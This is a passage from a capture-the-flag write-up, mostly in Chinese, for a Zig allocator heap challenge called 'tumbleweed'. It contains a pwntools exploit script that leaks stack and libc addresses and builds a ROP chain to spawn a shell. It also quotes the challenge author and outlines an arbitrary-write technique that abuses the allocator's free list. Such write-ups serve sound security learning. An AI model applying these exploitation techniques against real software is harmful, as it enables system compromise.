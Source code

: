 ```python
    show(1)
    rv(0x60)
    stack_addr = u64(rv(8))
    ret_addr = stack_addr-0x110
    lg("ret", ret_addr)

    fake2 = b"\x00"*0x48
    fake2 += p64(0) #off
    fake2 += p64(ret_addr-8) + p64(0x1000) # addr, size
    dele(1, heap.c)
    add(1, 0x70, heap.c, fake2)

    # leak libc
    add(2, 0x10, heap.fixed, b"a")
    show(2)
    rv(8)
    libc_base = u64(rv(8)) - 0x29d90
    
    system_addr = libc_base + 0x50d70
    binsh = 0x10083e0
    prdi_rbp = 0x1002e91
    rop = p64(prdi_rbp) + p64(binsh)*2
    rop += p64(system_addr)
    resize(2, 0x8, heap.fixed)
    add(3, 0x100, heap.fixed, rop)

    bye()
    p.interactive()
```



# Exp2 (use smp_allocator)

> babaisflag *—* 2024.04.07 05:17
>
> The idea for tumbleweed was for people to look at zig allocators to do fun shit across different allocators, so a bunch of unintended solutions is expected. Though, I forgot that resize of 0 is free, so that's definitely unintended lol.
>
> The intended is to use the fact that the fixed buffer allocator's resize doesn't actually resize the chunk (only sets the end_index of the backing buffer) to get overlapping chunks, and that smp allocator has a singly linked free list of power-of-2 chunk sizes, which gives you arbitrary write to clear out the burn_count. This gives you as much free as you need to do stack leaks, then libc leak, etc etc (since no PIE)

看discord得知，预期解是利用`smp_alloctor.frees`的单链表实现任意地址分配。

解题思路：

1. 使用`fba.alloc`分配chunk1和chunk2，`fba.resize(chunk2, 0)`，之后`smp_allocator.free`释放2个`fba.alloc`分配的堆块，再次`fba.alloc`可以uaf覆盖`smp_allocator.frees`单链指针，实现一次任意地址分配。
2. `smp_allocator.alloc`分配到`tumbleweed.fba`前，修改：
   * `fba.end_index = 0`
   * `fba.buffer.ptr = &heap.SmpAllocator.global.frees[8]`（这里指向0x100大小的单链表，还可以往后写更大的）
   * `fba.buffer.len = 0xa0000`（写个大一点的数就行，这里利用结尾的‘\n’刚好写成0xa0000）
3. 现在`fba.buffer`分配堆块写入就可以覆盖`heap.SmpAllocator.global.frees`链表指针了，之后就可以通过`fba.resize`和`smp_allocator.alloc`实现任意地址读写的原语，从而绕过了每种堆块只能释放2次的限制。
